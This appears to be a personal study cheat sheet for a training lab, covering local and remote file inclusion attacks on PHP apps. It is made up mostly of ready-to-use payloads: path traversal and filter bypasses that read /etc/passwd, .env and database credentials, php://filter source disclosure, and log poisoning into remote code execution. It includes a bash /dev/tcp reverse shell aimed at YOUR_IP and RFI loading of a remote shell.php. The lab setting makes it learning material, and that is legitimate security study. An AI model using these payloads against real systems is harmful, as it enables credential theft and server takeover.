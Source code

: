 
[[1. LFI - RFI]]

## 1. Local File Inclusion (LFI) Payloads

- **It allows reading local files on the server by manipulating the `filename` parameter.
### Payloads : 

1. **Basic Path Traversal :** 

	- Attempts to access files by navigating up directories.
	- `../../../../../etc/passwd` then use " ` ..././..././..././..././..././ ` ", <-- if `../` gets filtered.
	
	> if u get '"Failed with error `file_get_contents(etc/passwd)` "
	   So, it means that ` ../ ` is getting filtered out.

	- **Files to target :**

		- `etc/passwd` : **User Accounts** 
		- `/proc/self/environ`: **Environment variables (e.g., DB_PASSWORD).**
		- `/proc/version`: **Kernel version.**
		- `/etc/hosts`: **Network info.
		- `/etc/issue`: **OS version.
		- `/var/www/html/.env`: **App credentials.
		- `/var/www/html/config.php`: **DB credentials.
		- `/var/www/html/flag.txt`: **TCM lab flags.`
		
	- check [[1. LFI - RFI]] for more of this `Files to Target`.

	-  **Absolute Paths :** 

		- Payload: `/etc/passwd`
		- Purpose: ***Bypasses ../ filters if relative paths are blocked.***
		- **Example: GET /labs/fi0x01.php?filename=/etc/passwd.

2. **Filter Bypass Techniques :**

	- Bypasses filters blocking `../` or appending extensions (e.g., .txt).

	- **Creative Path Traversal :**
	
		- Payload: `..././..././..././..././..././etc/passwd`
		- Result: **Successfully retrieved /etc/passwd, bypassing ../ filter.
		
		-  **Variations:
    
		    - `....//....//....//....//etc/passwd`
		    - `..\/..\/..\/..\/..\/etc/passwd`

		- **Files to try after filter bypassing.

			- `..././..././..././..././..././proc/self/environ
	        - `..././..././..././..././..././var/www/html/.env
	        - `..././..././..././..././..././var/www/html/flag.txt

	- **URL Encoding : 

		- Payload: `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd` (encodes ../../../../../etc/passwd)
		- ***Use sites like [URL ENCODING](https://www.urlencoder.org/)

		- **Use Double Encoding.

	- **Null byte Injection : 

		- Payload: `../../../../../etc/passwd%00`
		- Purpose: **Truncates appended extensions (e.g., .txt) in PHP <5.3.4.
		- Note: Unlikely in modern PHP but possible in lab VMs.
		
3. **PHP Wrappers : 

	- ***Reads source code of PHP files without execution.

		- **php://filter**:

			- Payload: `php://filter/convert.base64-encode/resource=fi0x01.php`  or `..././db.php`.
			- Purpose: **Retrieves source code of fi0x01.php in base64 (decode with base64 -d).
			- Example: `GET /labs/fi0x01.php?filename=php://filter/convert.base64-encode/resource=fi0x01.php`  or `GET /labs/fi0x01.php?filename=php://filter/convert.base64-encode/resource=..././db.php`

		- **data:// Wrapper** (Rare):

			- Payload: `data://text/plain,<?php phpinfo(); ?>
			- Purpose: **Tests direct code injection (requires allow_url_include).

4. **Log Poisoning (LFI to RCE) : 

	- ***Injects PHP code into server logs and includes them for RCE.

		- **Steps : 

			- **Inject code via User-Agent :
			
				- Set `User-Agent: <?php system('whoami'); ?> in Burp.`
				- **Send request to `http://localhost/labs/fi0x01.php.`
		
			- **Include Log File : 
			
				- Payload: `..././..././..././..././..././var/log/apache2/access.log`
				
				- **Other Log Paths:
				
				    - `..././..././..././..././..././var/log/httpd/access_log`
				    - `..././..././..././..././..././usr/local/apache2/logs/access.log`
				    
			- **Escalate to Reverse Shell : 

				- User-Agent: `<?php system('bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'); ?>`
				- Listener: **nc -lvnp 4444
				- Include: `GET /labs/fi0x01.php?filename=..././..././..././..././..././var/log/apache2/access.log`

			-  **Purpose**: **Turns LFI into RCE if logs are readable and parsed as PHP.

			- - **Files to Target**:
    
			    - Apache: `/var/log/apache2/access.log (Ubuntu)
			    - Nginx: `/var/log/nginx/access.log
			    - TCM Flags: `cat /flag.txt or find / -name flag* after RCE.


## 2. Remote File Inclusion (RFI) Payloads

- **RFI includes and executes files from a remote server, requiring allow_url_fopen and allow_url_include. 

	1. **Basic RFI Test : 
	
		- *Confirms if remote URLs are included.

		- **Payload :
		
			- http://YOUR_IP:8000/test.txt
			- Setup: `echo "RFI Test" > test.txt && python3 -m http.server 8000`
			- **Example: GET /labs/fi0x01.php?filename=http://YOUR_IP:8000/test.txt
			
		- **Purpose**: Verifies RFI by displaying RFI Test.
		- **Variations**:
    
		    - http://YOUR_IP:8000/test.txt
		    - ftp://YOUR_IP/test.txt
		    - http://127.0.0.1:80/robots.txt
        

	2. **RFI for RCE : 

		-  **Executes remote PHP code for RCE.

		1. **Payload : 
			![[Pasted image 20250729134203.png]]

		- **Webshell : 

			-![[Pasted image 20250729134409.png]]
		- **Reverse Shell : 

			-![[Pasted image 20250729134512.png]]
	3. **RFI Filter Bypasses : 

	- *Bypasses filters blocking URLs or extensions.

		1. **URL encoding : 

			- Payload: `http%3A%2F%2FYOUR_IP%3A8000%2Fshell.php
			- Example: `GET /labs/fi0x01.php?filename=http%3A%2F%2FYOUR_IP%3A8000%2Fshell.php

		2. **Alternative Extensions : 

			- Payload: `http://YOUR_IP:8000/shell.txt
			- Purpose: **Bypasses .php filters if server executes .txt as PHP.

	3. **Data Exfiltration via RFI :

		- **Exfiltrates local files to your server.
			![[Pasted image 20250729141431.png]]




---